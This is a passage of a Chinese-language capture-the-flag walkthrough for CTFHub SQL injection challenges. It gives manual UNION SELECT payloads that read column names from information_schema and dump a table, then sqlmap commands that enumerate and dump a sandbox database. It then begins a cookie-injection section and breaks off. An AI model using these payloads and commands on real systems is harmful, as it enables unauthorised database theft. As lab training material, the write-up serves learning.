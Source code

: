 -1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='ywjidlpwzg'

![image-20220609173707227](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173707227.png)

得到字段名，于是查看字段内容，构造语句：

-1 union select 1,group_concat(jdpbhbikgx) from sqli.ywjidlpwzg

![image-20220609174848752](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609174848752.png)



#### 方法二：sqlmap

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172447522.png" alt="image-20220609172447522" style="zoom:80%;" />

```html
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172424852.png" alt="image-20220609172424852" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-38f5e1e6f6150b87.sandbox.ctfhub.com:10800/?id=1" -D sqli -T ywjidlpwzg --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609174425883.png" alt="image-20220609174425883" style="zoom:80%;" />

### **cookie注入

##### 方法一：手动注入

发现这是cookie注入，于是就抓包得到：

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609181008568.png" alt="image-20220609181008568" style="zoom:80%;" />

尝试注入,查询数据库名

![image-20220609185001905](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185001905.png)

成功查询到数据库名sqli

查询表名
